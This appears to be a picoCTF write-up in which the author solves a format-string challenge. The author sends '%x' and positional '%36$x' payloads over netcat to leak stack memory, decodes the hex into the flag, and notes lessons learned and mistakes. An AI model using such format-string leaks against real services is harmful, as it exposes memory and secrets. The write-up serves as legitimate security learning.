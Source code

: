 # flag leak
**Flag: picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}**
## My thought process and approach to the challenge:
First I tried using `%p`
![image](https://github.com/user-attachments/assets/b58ea8ad-0416-4a87-abcd-0e88538339db)
which gave me
```
┌──(sam㉿voldermort)-[~]
└─$ nc saturn.picoctf.net 56509
Tell me a story and then I'll tell you one >> %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %P
Here's a story - 
0xffacc6f0
```
Then I tried using `%x` like:       
but that just gave me:  
![image](https://github.com/user-attachments/assets/7fbfe846-4b06-4c06-b739-aa456eba86dc)           

```
┌──(sam㉿voldermort)-[~]
└─$ nc saturn.picoctf.net 56509
Tell me a story and then I'll tell you one >> %x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x: 
Here's a story - 
ffe7ea40:ffe7ea60:8049346:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:253a78:6f636970:7b465443:6b34334c:5f676e31:67346c46:6666305f:3474535f:
```
At first, all this made no sense at all to me, but looking at it further, I decided to analyze `6f636970:7b465443:6b34334c:5f676e31:67346c46:6666305f:3474535f:`            
So I tried using an online converter:
![image](https://github.com/user-attachments/assets/370ce0aa-d1bf-415a-8048-06a129c96307)
This gave me the flag but it was jumbled.     
`ocip{FTCk43L_gn1g4lFff0_4tS_` and it wasn't the full flag because it didn't have and ending `}`.          
So then I tried using `%x` more times but that also didn't work.  
![image](https://github.com/user-attachments/assets/0db3b252-00b0-4efa-aeea-d5f86576e95d)
As this was giving me the flag till the same point.            

Then I tried using:
`%36$x:%37$x:%38$x:%39$x:%40$x:%41$x:%42$x:%43$x:%44$x:%45$x:%46$x:%47$x:%48$x:%49$x:%50$x` to get more of the end part of the flag:
This gave me:
![image](https://github.com/user-attachments/assets/bf8c7f48-bdb3-4d3a-afea-ab31696bd6a6)

```
┌──(sam㉿voldermort)-[~]
└─$ nc saturn.picoctf.net 58702
Tell me a story and then I'll tell you one >> %36$x:%37$x:%38$x:%39$x:%40$x:%41$x:%42$x:%43$x:%44$x:%45$x:%46$x:%47$x:%48$x:%49$x:%50$x
Here's a story - 
6f636970:7b465443:6b34334c:5f676e31:67346c46:6666305f:3474535f:395f6b63:32653939:7d343238:fbad2000:89156900:0:ec98f990:804c000
```
putting this to the converter gave me:
![image](https://github.com/user-attachments/assets/dc8f55d5-6a4d-4e54-a522-a0d82c7a08d1)
Which was `ocip{FTCk43L_gn1g4lFff0_4tS_9_kc2e99}` the full flag but still jumbled.
after a lot of trial and error I got till
`picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}` which worked.



---

## Every single new concept and point of knowledge I learned or improved upon through solving the challenge.
1. **Learnt about Format String Vulnerabilities:**
   - Using `%p`, `%x`, and `%s` to leak memory data and to exploit vulnerabilities

2. **Learnt more about the memory Layout:**
   - Recognizing the importance of byte ordering when interpreting hex data.
   - Learnt how to reorder the output to make it meaningful.

3. **Hex-to-ASCII Conversion:**
   - Improved upon using online conversion tools to convert hex values to ASCII strings in order to get the flag of form picoCTF{}.

4. **Learnt how to use offset-Based Access:**
   - Learnt how to use specific offsets (`%36$x`, etc.) to navigate the stack and access data, which is important to get the flag.

5. **Improved upon Debugging:**
   - Applying trial and error to extract the complete flag.


---

##  Incorrect tangents I went on while solving :
1. **Overusing `%p`:**
   - Initially, I wasted too much time attempting `%p`, which only provided memory addresses and didn't help with the flag.

2. **Assuming Linear Output:**
   - I initially expected the flag to be fully successive, leading to unnecessary tests with `%x`, which did not prove useful and was just repetitive.

3. **Reordering Attempts:**
   - Early attempts to reorder hex data were incorrect due to misunderstandings about memory layout.
